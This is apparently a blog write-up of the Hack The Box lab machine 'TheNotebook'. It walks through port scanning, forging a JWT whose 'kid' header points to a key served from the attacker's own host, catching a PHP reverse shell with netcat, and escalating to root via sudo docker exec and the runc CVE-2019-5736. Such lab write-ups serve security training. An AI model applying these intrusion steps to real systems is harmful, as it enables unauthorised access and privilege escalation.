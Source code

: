 ```yaml
---
layout: post
title:  "HacktheBox - TheNotebook"
date:   2021-07-31 9:20:00 +0200
last_modified_at: 2021-07-31 09:20:29 +0200
toc:  true
tags: [ctf, linux, Hackthebox, Writeup, Docker, JWT]
categories: Hackthebox
---
```



It's a machine that I really liked the way it intruded and climbed.

---


## Enumeration
### Nmap 

*Ports:*
* 22 /tcp -> OpenSSH 7.6p1
* 80 /tcp -> nginx 1.14.0

```bash
nmap -p- --open -T5 -v 10.10.10.230 -oG Allport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:10 EDT
Initiating Ping Scan at 21:10
Scanning 10.10.10.230 [2 ports]
Completed Ping Scan at 21:10, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:10
Completed Parallel DNS resolution of 1 host. at 21:10, 0.01s elapsed
Initiating Connect Scan at 21:10
Scanning 10.10.10.230 [65535 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230
Connect Scan Timing: About 43.74% done; ETC: 21:11 (0:00:40 remaining)
Completed Connect Scan at 21:11, 97.59s elapsed (65535 total ports)
Nmap scan report for 10.10.10.230
Host is up (0.082s latency).
Not shown: 47011 filtered ports, 18522 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 97.78 seconds
```
This scan as I always say is the important one since it brings us versions of the services:

```bash
nmap -sC -sV -p22,80 10.10.10.230 -oN ScanPort1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 21:22 EDT
Nmap scan report for 10.10.10.230
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```
I always like to pull this utility to know what I'm up against:

```bash
whatweb 10.10.10.230
http://10.10.10.230 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.10.230], Title[The Notebook - Your Note Keeper], nginx[1.14.0]
```

### Fuzz

Through wfuzz I was able to get this: 
* -> http://10.10.10.230/bd7077f7-3d3a-43c0-a0e0-20047e819f35/notes
* -> http://10.10.10.230/admin/
	* upload
	* notes


In the cookie editor I found what is a jwt which when passed by [this](https://jwt.io/) and shows you everything you need to work

## JWT Token bypass
To perform this bypass I read this one [blog](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
```sql
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in privKey.key
Your public key has been saved in privKey.key.pub
The key fingerprint is:
SHA256:6hjan3Jm1H2FExEj0WOvCy6tw6XmNc9AzYVHmp66Ny8 benji@parrot
The key's randomart image is:
+---[RSA 4096]----+
|          oo+o.  |
|           .=*   |
|           .+=o  |
|           +o+o  |
|       .S.. =+   |
|      ....+.o    |
|    .... ==o .   |
|   o.++.*.o*E    |
|  . o*+oo+..o+.  |
+----[SHA256]-----+

python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...

┌─[benj@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.209:7070/privKey.key"}' |base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMDk6NzA3
MC9wcml2S2V5LmtleSJ9Cg==
┌─[benji@parrot]─[~/Documents/CTF/TheNotebook]
└──╼ $echo '{"username":"benji","email":"benji@htb.local","admin_cap":true}' |base64
eyJ1c2VybmFtZSI6ImJlbmppIiwiZW1haWwiOiJiZW5qaUBodGIubG9jYWwiLCJhZG1pbl9jYXAi
OnRydWV9Cg==
```

First we copy the two base64 that were obtained from the encoding of the text strings. (Taking into account that I have a server on port 7070)

![](/images_blog/img_thenotebook/Pastedimage20210422141532.png)

![Pastedimage20210422141532](https://user-images.githubusercontent.com/76759292/127757368-0953690d-dca7-4a53-95e4-ca1a1caea03f.png)

### Sign token 

To do this you have to copy the public and private keys to https://jwt.io/.

## Reverse PHP

Here I have access to upload a php file and then taking advantage of this, uploading the classic php file

![](/images_blog/img_thenotebook/Pastedimage20210422142431.png)
![Pastedimage20210422142431](https://user-images.githubusercontent.com/76759292/127757445-cabf92e0-48fd-475b-833f-d69f2afa637a.png)


```bash
rlwrap nc -lnvp 4444           
listening on [any] 4444 ...
connect to [10.10.14.209] from (UNKNOWN) [10.10.10.230] 59978
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@thenotebook:/$ 
```

First is that we find as the user www-data we have to become the user noah, in the backup path we find one of the full directory of noah, this backup contains an id_rsa key of the user noah:

```bash
/var/backups$ ls -la
total 64
drwxr-xr-x  2 root root  4096 Jul 31 16:03 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33585 Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root  3618 Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.2.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

```bash
ls
authorized_keys  id_rsa  id_rsa.pub
```

Having this we log in via ssh:
```bash
noah@thenotebook:~$ ls
user.txt  webapp-dev01.sh
noah@thenotebook:~$ cat user.txt 
56013079b3c02c282d699ba6faec07c6
```
## PrivEsc
For the privesc we found a container that is outdated with a version *Docker version 18.06.0-ce* it is worth noting that docker is on version 20.10:

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
sudo /usr/bin/docker exec -it webapp-dev01 bash
root@b778c5e32326:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key  requirements.txt  static  templates  webapp.tar.gz
root@b778c5e32326:/opt/webapp# 

docker --version
Docker version 18.06.0-ce, build 0ffa825
```
Here is this one [CVE](https://github.com/Frichetten/CVE-2019-5736-PoC):

![](/images_blog/img_thenotebook/Pastedimage20210731171252.png)
![Pastedimage20210731171252](https://user-images.githubusercontent.com/76759292/127757457-ae1380af-2ede-4b74-a348-9a65d799c412.png)


The idea is that we can execute any command as root so knowing this I will give permission to the bash so when I do a bash -p it will give me a bash as root:

```bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
![](/images_blog/img_thenotebook/Pastedimage20210731171606.png)
![Pastedimage20210731171606](https://user-images.githubusercontent.com/76759292/127757460-f66c999b-0eae-44c0-9150-cf0acbe8a097.png)


![](/images_blog/img_thenotebook/Pastedimage20210731171815.png)

![Pastedimage20210731171815](https://user-images.githubusercontent.com/76759292/127757461-a85dc410-c881-4325-82fc-59a60ffe4a8f.png)

Here we see how we have access to the flag:
```bash
bash-4.4# ls
cleanup.sh  docker-runc  reset.sh  root.txt  start.sh
bash-4.4# cat root.txt 
9bba1908ac228fb0088747ddee6ab9b9
bash-4.4# 
```
MACHINE PWNED!!!!!

<p align="center">
<img src="https://tenor.com/view/typing-petty-fast-cloudy-with-a-chance-of-meatballs-flint-lockwood-gif-4907824.gif" width="300" height="300" />
</p>

